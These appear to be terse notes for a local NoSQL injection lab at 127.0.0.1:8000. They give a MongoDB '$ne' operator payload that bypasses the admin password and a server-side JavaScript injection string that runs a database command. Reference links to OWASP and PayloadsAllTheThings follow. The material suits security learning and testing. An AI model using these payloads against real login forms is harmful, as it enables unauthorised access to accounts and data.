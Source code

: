 http://127.0.0.1:8000/join.php -> register as admin


Burp required
POST http://127.0.0.1:8000/login.php
login=admin&password[$ne]=1&submit=Submit

SSJS

LOGUT REQUIRED
http://127.0.0.1:8000/logout.php


http://127.0.0.1:8000/ssjs.php
username = blabla
password = 1'; var passs = db.version(); var test='


https://www.owasp.org/index.php/Testing_for_NoSQL_injection
https://habr.com/ru/company/xakep/blog/143909/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
Удар по MongoDB - Сценарии атаки на Nosql базу данных ZerpNights 2012
